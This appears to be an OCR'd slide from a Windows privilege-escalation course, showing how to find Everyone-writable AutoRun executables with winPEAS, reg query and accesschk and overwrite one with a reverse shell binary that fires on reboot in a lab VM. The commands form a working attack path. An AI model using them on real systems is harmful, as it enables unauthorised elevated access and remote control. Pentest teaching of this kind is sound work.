 Windows can be configured to run commands at startup,  
with elevated privileges.  
These “AutoRuns” are configured in the Registry.  
If you are able to write to an AutoRun executable, and are  
able to restart the system (or wait for it to be restarted) you  
may be able to escalate privileges.

1.Use winPEAS to check for writable AutoRun executables:  
`.\winPEASany.exe quiet applicationsinfo`

> [?] Check if you can modify other users AutoRuns binaries
> 
> > File: C:\Program Files\Autorun Program\program.exe
> > 
> > > FilePerms: Everyone [AllAccess]

2.Alternatively, we could manually enumerate the AutoRun executables:  
`reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run`  
and then use accesschk.exe to verify the permissions on each one:  
`.\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"`

3.The “C:\Program Files\Autorun Program\program.exe” AutoRun executable is writable by Everyone. Create a backup of the original:  
`copy "C:\Program Files\Autorun Program\program.exe" C:\Temp`

4.Copy our reverse shell executable to overwrite the AutoRun executable:  
`copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe"`

5.Start a listener on Kali, and then restart the Windows VM to trigger the exploit. Note that on Windows 10, the exploit appears to run with the privileges of the last logged on user, so log out of the “user” account and log in as the “admin” account first.